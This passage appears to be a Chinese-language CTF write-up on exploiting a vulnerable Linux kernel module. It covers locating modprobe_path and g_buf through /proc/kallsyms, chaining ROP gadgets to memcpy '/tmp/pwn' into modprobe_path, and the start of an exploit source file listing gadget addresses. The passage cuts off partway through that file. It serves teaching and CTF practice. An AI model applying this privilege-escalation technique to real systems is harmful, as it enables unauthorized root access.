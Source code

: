 > 這邊要注意 `ROPgadget` 找到的 gadget 在 kernel 跑起來之後不一定還會存在，有一些 gadget 在啟動的時候會被寫掉，需要去驗證一下

我們需要把 `/tmp/pwn` 寫到 `modprobe_path`，首先先去找 `modprobe_path` 在哪

```shell
cat /proc/kallsyms | grep modprobe_path
```

可以得到

```
ffffffff82dd82a0 D modprobe_path
```

接著我們去找一下 `write` 會把前 0x30 個 bytes 複製到的 `g_buf`

```shell
cat /proc/kallsyms | grep g_buf
```

可以得到

```
ffffffffc0203580 b g_buf	[yflkp]
```

由此，我們的目標就是把 `/tmp/pwn` 寫到 `g_buf`，然後 ROP 去執行

```c
memcpy(modprobe_path, g_buf, 0x10)
```

```shell
cat /proc/kallsyms | grep memcpy
```

```
ffffffff820c0910 T memcpy
```

最後再想辦法回到正常的執行流程

接下來就是串 ROP 了，先去找幾個可以用的 gadget

```
0xffffffff813b593d : pop rdi ; ret 0xb
0xffffffff810b638e : pop rsi ; ret 1
0xffffffff8110b4b2 : pop rdx ; ret
```

這邊有一個小小神奇的地方，就是 `ret 0xb` 和 `ret 1` 的 `0xb` 和 `1` 的單位是 bytes，所以我們在 ROP 之後還要把 stack 給對齊

```
0xffffffff8102f7cc : ret 4
```

執行完之後可以 trace 一下原本應該會怎麼 return，找到一個適合的位址和調整 stack 來把程式執行流程還給 kernel

最後的 `solve.c` 長這樣

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>

#define MASK 0xffffffffffffffff

#define POP_RDI_RET_0xB 0xffffffff813b593d
#define POP_RSI_RET_0x1 0xffffffff810b638e
#define POP_RDX_RET 0xffffffff8110b4b2
#define RET 0xffffffff81000043
#define RET_0x4 0xffffffff8102f7cc

```